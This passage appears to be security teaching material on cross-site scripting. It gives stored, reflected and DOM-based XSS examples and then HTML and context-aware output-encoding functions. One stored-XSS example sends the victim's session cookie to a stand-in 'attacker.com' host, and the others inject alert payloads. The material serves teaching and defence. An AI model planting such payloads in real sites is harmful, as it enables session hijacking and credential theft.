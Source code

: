 ### 💻 XSS Attack Examples
```html
<!-- Stored XSS in comment system -->
<script>
  // Steal session cookies
  document.location='http://attacker.com/steal.php?cookie=' + document.cookie;
</script>

<!-- Reflected XSS in search -->
<p>Search results for: <script>alert('XSS')</script></p>

<!-- DOM-based XSS -->
<script>
  var search = location.search.substring(1);
  document.write("You searched for: " + search);
</script>
<!-- URL: page.html?q=<script>alert('XSS')</script> -->
```

### 🔍 XSS Impact
- **Session hijacking**
- **Credential theft**
- **Defacement**
- **Malware distribution**
- **Phishing attacks**

</div>

<div>

## 🛡️ XSS Prevention Strategies

### 1. Output Encoding/Escaping
```javascript
// HTML entity encoding
function htmlEncode(str) {
  return str.replace(/[&<>"']/g, function(match) {
    const entities = {
      '&': '&amp;',
      '<': '&lt;',
      '>': '&gt;',
      '"': '&quot;',
      "'": '&#x27;'
    };
    return entities[match];
  });
}

// Context-aware encoding
function encodeForContext(data, context) {
  switch(context) {
    case 'html':
      return htmlEncode(data);
    case 'javascript':
      return data.replace(/[\\'"]/g, '\\$&');
    case 'css':
      return data.replace(/[^a-zA-Z0-9-]/g, '\\$&');
    case 'url':
      return encodeURIComponent(data);
    default:
      return htmlEncode(data);
  }
}
```